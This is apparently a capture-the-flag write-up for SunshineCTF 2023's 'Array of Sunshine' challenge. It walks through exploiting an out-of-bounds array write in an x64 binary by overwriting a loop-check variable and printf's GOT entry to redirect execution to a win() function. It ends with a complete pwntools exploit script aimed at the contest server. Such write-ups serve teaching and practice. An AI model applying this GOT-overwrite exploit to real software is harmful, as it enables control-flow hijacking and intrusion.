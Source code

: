 # Array of Sunshine

The challenge is to exploit an index of bound write in a x64 binary.
The program asks for two inputs. The first defines the index of the fruits-array
and the second input writes into the memory of the specified index location:

![Basic Output](img1.png)

The program exits after the second input. However, if we take a look at the main function
we can see that there is a loop around the basket function:

![loop](img2.png)

The problem is, that after the second input, the program checks a magic-variable called
"printf_sym". If this magic variable is not 0x6, the programm jumps to the exit-function:

![exit](img3.png)

If we can somehow overwrite that variable with the value 0x6, the loop would work and we
can repeat the basket function. So the first thing we did, was to examine the memory down
from array[0]: 

![get the base address](img4.png)

We entered 0 into the first scanf and then we got an address to write to
in the second scanf. We used this address as our base and examined the memory in gdb:

![memup](img5.png)

As we can see, the variable "printf_sym" can be reached by increasing the index. By trial 
and error we figured out that the index to point to "printf_sym" is 10.

Now we are able to loop and repeat the basket function as often as we want. Next we need to
find a way to manipulate the execution flow. So we examined the memory again. This time we
decreased the addresses:

![memdown](img6.png)

And we found some got.plt locations:

![printf got](img7.png)

We can overwrite the printf@got.plt(index offset -12) with any address in the memory. The next time printf is
executed, the programm will jump to our address instead. So we were looking for some useful
functions and found the function "win":

![win function](img8.png)

The win() function executes system("cat flag.txt"). Thats exactly what we want to do. So lets
put this into code:

```python
from pwn import p64
from pwn import *


def print_n_send(p, payload):
    print(payload)
    p.sendline(payload)


# p = process("./sunshine")
p = remote("chal.2023.sunshinectf.games", 23003)

target_address = 0x405020
fruits_base = 0x405080
win_function_addr = 0x0040128F

local_34_value = (target_address - fruits_base) // 8

p.recvuntil(b"\n\n")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))

print_n_send(p, str.encode("10"))
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, b"\x06\x00\x00\x00\x00\x00\x00\x00")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))
print_n_send(p, str(local_34_value).encode())
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, p64(win_function_addr))
print(p.recv())
```

![pwn](img9.png)

